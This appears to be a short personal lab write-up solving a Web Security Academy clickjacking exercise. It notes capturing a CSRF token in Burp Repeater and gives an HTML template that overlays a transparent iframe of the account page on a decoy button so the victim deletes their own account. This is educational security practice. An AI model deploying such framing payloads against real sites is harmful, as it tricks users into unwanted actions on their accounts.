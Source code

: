```yaml
---
sticker: emoji//1f97c
---
```

Based on the previous note: [[HOW TO CONSTRUCT A BASIC CLICKJACKING ATTACK|NOTE]]

![](images/Pasted%20image%2020241021153605.png)


If we use the delete function from the account and send the request to the repeater, we get the following CRSR token:

![](images/Pasted%20image%2020241021155644.png)

```ad-info
token:0XvopQRGgqPlwC8auzHR7owrONVjuWJf
```
Next, what we need to do is craft our Clickjacking malicious code, I used the following code for this:

```html
<style>
    iframe {
        position:relative;
        width:$width_value;
        height: $height_value;
        opacity: $opacity;
        z-index: 2;
    }
    div {
        position:absolute;
        top:$top_value;
        left:$side_value;
        z-index: 1;
    }
</style>
<div>Test me</div>
<iframe src="YOUR-LAB-ID.web-security-academy.net/my-account"></iframe>
```

![](images/Pasted%20image%2020241021162011.png)
Once we send the exploit to the victim, lab's solved